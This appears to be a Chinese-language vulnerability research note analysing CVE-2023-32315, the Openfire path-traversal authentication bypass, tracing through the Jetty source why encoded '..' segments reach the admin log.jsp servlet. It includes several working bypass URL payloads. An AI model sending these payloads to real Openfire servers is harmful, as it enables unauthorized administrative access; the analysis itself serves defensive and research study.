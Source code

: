 
参考：
- https://github.com/vulhub/vulhub/blob/master/openfire/CVE-2023-32315/README.zh-cn.md

### 环境搭建

```bash
wget https://github.com/igniterealtime/Openfire/releases/download/v4.7.3/openfire_4_7_3.tar.gz
tar zxf openfire_4_7_3.tar.gz
cd bin
chmod +x ./openfire.sh
./openfire.sh start -debug
```
即可监听在5005端口进行调试。

payload:
```
/setup/setup-/../../log.jsp
```

![image](https://github.com/shadowsock5/Poc/assets/30398606/2e63de08-0853-49cb-b267-e050b57f7ce6)
说明到这里的时候，不能有`%2e`。
将`../../`进行unicode编码，得到：
```
/setup/setup-/\u002E\u002E/\u002E\u002E/log.jsp
```

![image](https://github.com/shadowsock5/Poc/assets/30398606/d3db00ec-f5c3-41d4-8648-ca43b14a4d83)

虽然能过认证，但是响应是这样的：
![image](https://github.com/shadowsock5/Poc/assets/30398606/ddd0cd28-6882-455e-bc6f-b5da33a34023)

直接抄答案，
```
/setup/setup-/%u002E%u002E/%u002E%u002E/log.jsp
```
绕过了。
![image](https://github.com/shadowsock5/Poc/assets/30398606/e7615e3e-f554-4c39-a058-46cc2c97ed4a)

调试看一下为什么？

注意这里的log.jsp并不是真的存在这个文件，而是在web.xml中有其映射的servlet。
```xml
    <servlet>
        <servlet-name>org.jivesoftware.openfire.admin.log_jsp</servlet-name>
        <servlet-class>org.jivesoftware.openfire.admin.log_jsp</servlet-class>
    </servlet>
...
    <servlet-mapping>
        <servlet-name>org.jivesoftware.openfire.admin.log_jsp</servlet-name>
        <url-pattern>/log.jsp</url-pattern>
    </servlet-mapping>
```

在这里下断点：
org.jivesoftware.openfire.admin.log_jsp#_jspService

![image](https://github.com/shadowsock5/Poc/assets/30398606/e7811e9d-0332-4242-94c9-ca1cb518afad)
断下来之后往前回溯。
![image](https://github.com/shadowsock5/Poc/assets/30398606/7ae5ced4-59e4-40f0-a618-46db5ac750fe)

openfire\lib\jetty-servlet-9.4.43.v20210629.jar!\org\eclipse\jetty\servlet\ServletHolder.class# handle


在这里
openfire\lib\jetty-http-9.4.43.v20210629.jar!\org\eclipse\jetty\http\HttpURI.class
看到了：
```java

    static {
        __ambiguousSegments.put(".", Boolean.FALSE);
        __ambiguousSegments.put("%2e", Boolean.TRUE);
        __ambiguousSegments.put("%u002e", Boolean.TRUE);
        __ambiguousSegments.put("..", Boolean.FALSE);
        __ambiguousSegments.put(".%2e", Boolean.TRUE);
        __ambiguousSegments.put(".%u002e", Boolean.TRUE);
        __ambiguousSegments.put("%2e.", Boolean.TRUE);
        __ambiguousSegments.put("%2e%2e", Boolean.TRUE);
        __ambiguousSegments.put("%2e%u002e", Boolean.TRUE);
        __ambiguousSegments.put("%u002e.", Boolean.TRUE);
        __ambiguousSegments.put("%u002e%2e", Boolean.TRUE);
        __ambiguousSegments.put("%u002e%u002e", Boolean.TRUE);
    }
```
所以从这里面看，只有不包含`%2e`的，能变成..的应该都可以，比如：
```
/setup/setup-/.%u002e/.%u002e/log.jsp
/setup/setup-/%u002e./%u002e./log.jsp
```

一些细节：
![image](https://github.com/shadowsock5/Poc/assets/30398606/f63dfd7a-6e23-4011-b2eb-3d1e56c534ef)

openfire\lib\jetty-util-9.4.43.v20210629.jar!\org\eclipse\jetty\util\URIUtil.class
![image](https://github.com/shadowsock5/Poc/assets/30398606/e291fb82-1dc0-473e-b059-466d4147709e)

openfire\lib\jetty-http-9.4.43.v20210629.jar!\org\eclipse\jetty\http\HttpURI.class
![image](https://github.com/shadowsock5/Poc/assets/30398606/d83c058a-3a45-4a6d-a2f1-7524af4508ca)
这里的
```java
String decodedNonCanonical = URIUtil.decodePath(this._path)
```
把
```
/setup/setup-/.%u002e/.%u002e/log.jsp
=>
/setup/setup-/../../log.jsp
```
然后
```java
this._decodedPath = URIUtil.canonicalPath(decodedNonCanonical)
```
把
```
/setup/setup-/../../log.jsp
=>
/log.jsp
```

这样在这里，
openfire\lib\jetty-server-9.4.43.v20210629.jar!\org\eclipse\jetty\server\HttpChannelOverHttp.class

![image](https://github.com/shadowsock5/Poc/assets/30398606/64f6a262-7743-4320-b199-fdfb98a811ec)

已经被转换成了`/log.jsp`。

再来看看为什么这个url对应到了log_jsp这个servlet：
![image](https://github.com/shadowsock5/Poc/assets/30398606/3880365a-e15f-4293-b004-5da88e8ca317)

这里直接就得到的是`NotAsync:org.jivesoftware.openfire.admin.log_jsp@6a5ef204`，调试一下怎么得到的。但是如果不是启动后第一次访问这个servlet，就没法得到`this._servlet`被赋值的过程。
重新启动，第一次访问即使用这个payload。
在openfire\lib\jetty-servlet-9.4.43.v20210629.jar!\org\eclipse\jetty\servlet\ServletHolder.class#initServlet的第一行下断点。
没找到。
最后在这里找到了
openfire\lib\jetty-servlet-9.4.43.v20210629.jar!\org\eclipse\jetty\servlet\ServletHandler.class#doScope
![image](https://github.com/shadowsock5/Poc/assets/30398606/26f9f1dd-50ac-49a6-b4c8-a408be079666)
在这一行就得到了/log.jsp对应的servlet：
```java
String old_path_info = baseRequest.getPathInfo()
```
看一下这个`pathInfo`是在哪里被set的：
有两处：

![image](https://github.com/shadowsock5/Poc/assets/30398606/8e6bd355-5e89-426d-a109-aaf1efefc411)
```java
setPathInfo:2210, Request (org.eclipse.jetty.server)
doScope:1340, ContextHandler (org.eclipse.jetty.server.handler)
handle:141, ScopedHandler (org.eclipse.jetty.server.handler)
handle:191, ContextHandlerCollection (org.eclipse.jetty.server.handler)
handle:146, HandlerCollection (org.eclipse.jetty.server.handler)
handle:127, HandlerWrapper (org.eclipse.jetty.server.handler)
handle:516, Server (org.eclipse.jetty.server)
lambda$handle$1:388, HttpChannel (org.eclipse.jetty.server)
dispatch:-1, 222164335 (org.eclipse.jetty.server.HttpChannel$$Lambda$142)
dispatch:633, HttpChannel (org.eclipse.jetty.server)
handle:380, HttpChannel (org.eclipse.jetty.server)
onFillable:277, HttpConnection (org.eclipse.jetty.server)
succeeded:311, AbstractConnection$ReadCallback (org.eclipse.jetty.io)
fillable:105, FillInterest (org.eclipse.jetty.io)
run:104, ChannelEndPoint$1 (org.eclipse.jetty.io)
runJob:883, QueuedThreadPool (org.eclipse.jetty.util.thread)
run:1034, QueuedThreadPool$Runner (org.eclipse.jetty.util.thread)
run:748, Thread (java.lang)
```

往前回溯。
发现在openfire\lib\jetty-server-9.4.43.v20210629.jar!\org\eclipse\jetty\server\Request.class#setMetaData
中会调用HttpURI uri.getDecodedPath()，即获取这个uri的`_decodedPath`属性。而这个uri之前已经被
```java
this._decodedPath = URIUtil.canonicalPath(decodedNonCanonical)
```
转换为`/log.jsp`了。
![image](https://github.com/shadowsock5/Poc/assets/30398606/9bd5534d-c1f7-4369-a870-f98f0fe307c0)
最后将这个path：`/log.jsp`设置到org.eclipse.jetty.server.Request的pathInfo上了。
![image](https://github.com/shadowsock5/Poc/assets/30398606/8ffe9b14-b50f-4219-ab0a-a4816ceda851)


## Ref
- https://mp.weixin.qq.com/s/cuULlP0F0Xf9Rhmkb-9H0g
- https://mp.weixin.qq.com/s/EzfB8CM4y4aNtKFJqSOM1w
- https://github.com/igniterealtime/Openfire/security/advisories/GHSA-gw42-f939-fhvm

